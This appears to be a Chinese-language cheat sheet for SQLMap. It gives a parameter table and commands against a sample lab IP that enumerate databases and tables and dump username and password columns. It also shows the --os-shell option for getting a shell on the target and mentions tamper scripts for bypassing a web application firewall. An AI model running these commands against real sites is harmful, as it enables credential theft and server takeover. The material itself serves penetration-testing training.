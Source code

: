 # [SQLMap](https://github.com/sqlmapproject/sqlmap.git)

<!--last modify: 20230816-->

SQLMap 是一款专注于SQLi 的工具，SQLmap 基于Python 语言编写的命令行工具，集成在Kali 中

## 0x00 基本参数

| 参数                      | 含义                                    |
| ------------------------- | --------------------------------------- |
| -u                        | 检测注入点                              |
| --dbs                     | 列出所有的库名                          |
| --current-user            | 当前连接数据库用户的名字                |
| --current-db              | 当前数据库的名字                        |
| -D "cms"                  | 指定目标数据库为cms                     |
| --tables                  | 列出数据库中所有的表名                  |
| -T "cms_users"            | 指定目标表名为'cms_users'               |
| --columns                 | 列出所有的字段名                        |
| -C “username,password”    | 指定目标字段                            |
| --dump                    | 列出字段内容                            |
| -r                        | 从文件中读取HTTP 请求                   |
| --os-shell                | 在特定情况下，可以直接获得目标系统Shell |
| --level 3                 | 设置sqlmap 检测等级 3                   |
| --cookie="username=admin" | 携带Cookie 信息进行注入                 |
| -g                        | 利用google 搜索引擎自动搜索注入点       |
| --batch                   | 使用默认选项                            |
| --random-agent            | 使用随机User-Agent 信息                 |
| -v 3                      | 显示payload                             |
| --param-filter=Referer    | 指定注入参数                            |
| --tamper “space2comment”  | 使用tamper脚本处理注入payload           |
| --dbms=MYSQL              | 指定数据库为MYSQL                       |

## 0x01 基本命令

```cmd
注入点：http://10.10.10.6/cms/show.php?id=33
sqlmap -u "http://10.10.10.1/show.php?id=33"
sqlmap -u "http://10.10.10.1/show.php?id=33" --dbs
sqlmap -u "http://10.10.10.1/show.php?id=33" --current-db
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" --tables
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" -T "cms_users" --columns
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" -T "cms_users" -C "username,password" --dump

```

### 0x01x000 POST 注入

- 受到secure_file_priv 选项的限制；

- 目标系统Web 根目录的绝对路径；

  ```cmd
  sqlmap -r /tmp/login.post
  ```

- 直接 getshell

  ```cmd
  sqlmap -u "http://192.168.16.119/show.php?id=33" --os-shell
  ```

## 0x02 SQLMap 自动绕狗

将 SQLMap 源码放到 python 根目录下的 temper (绕狗脚本)
